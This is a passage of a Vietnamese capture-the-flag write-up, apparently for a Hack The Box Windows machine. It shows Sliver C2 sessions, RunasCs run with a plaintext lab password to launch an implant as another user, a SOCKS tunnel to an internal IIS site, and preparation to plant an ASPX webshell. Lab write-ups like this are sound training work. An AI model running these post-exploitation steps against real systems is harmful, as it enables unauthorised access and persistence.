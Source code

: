 Sau khi quá trình transfer hoàn tất, nhận được session trở lại trên listener sliver.

![alt text](image-23.png)

Bây giờ, đã có được một shell tốt để tương tác với remote host, nhưng đã mất đi user advancement. Có thông tin xác thực cho user `c.bum` nhưng có một shell là user `svc_apache`. Vì có thông tin xác thực, có thể sử dụng RunasCs (https://github.com/antonioCoco/RunasCs) để có được một session sliver mới là user `c.bum`.

```
upload /opt/RunasCs.exe

shell

.\RunasCs.exe c.bum Tikkycoll_431012284 -l 2 "C:\users\public\music\htb.exe"
```

```
Lưu ý: Trong sliver, để thoát khỏi phiên shell, sử dụng tổ hợp phím "CTRL+d" rồi đợi khoảng 10 giây trước khi nhấn enter.
```

![alt text](image-24.png)

Cuối cùng, có một shell với tư cách là user `c.bum`. Bắt đầu enum machine.

![alt text](image-25.png)

Nhận thấy user `c.bum` là member của một group non-default có tên là `WebDevs`. Hơn nữa, nhận thấy directory `C:\inetpub`, cho biết server IIS cũng có mặt trên hệ thống. Khi xem output của `Get-NetTCPConnection -State Listen`, có thể thấy port `8000` cũng đang listening và đó không phải là default port.

![alt text](image-26.png)

Có thể sử dụng `sliver` để tạo proxy SOCKS để xác minh các giả định. Đầu tiên, thoát khỏi shell và sau đó tạo tunnel SOCKS.

```
sock5 start
```

![alt text](image-27.png)

Bây giờ đã thiết lập được tunnel SOCKS, có thể thử truy cập vào server IIS nội bộ. Có thể sử dụng add-on Firefox có tên là FoxyProxy (https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/). Bước đầu tiên sau khi cài đặt là cấu hình để sử dụng proxy SOCKS.

![alt text](image-28.png)

Sau đó, định tuyến lưu lượng truy cập qua proxy và thử truy cập `http://127.0.0.1:8000`.

![alt text](image-29.png)

Thật vậy, có một trang web đang listening trên `localhost:8000`. Tìm kiếm qua các directoy và file bên trong `C:\inetpub` và so sánh chúng với trang web đã truy cập, có thể kết luận một cách an toàn rằng `C:\inetpub\development` là thư mục được lưu trữ. Vì user `c.bum` là member của một group có tên là `WebDevs` nên có thể có quyền write vào folder `C:\inetpub\development`. Mục tiêu là lấy một session sliver làm tài khoản chạy server IIS. Sử dụng sliver một lần nữa để upload webshell ASPX đơn giản sau.
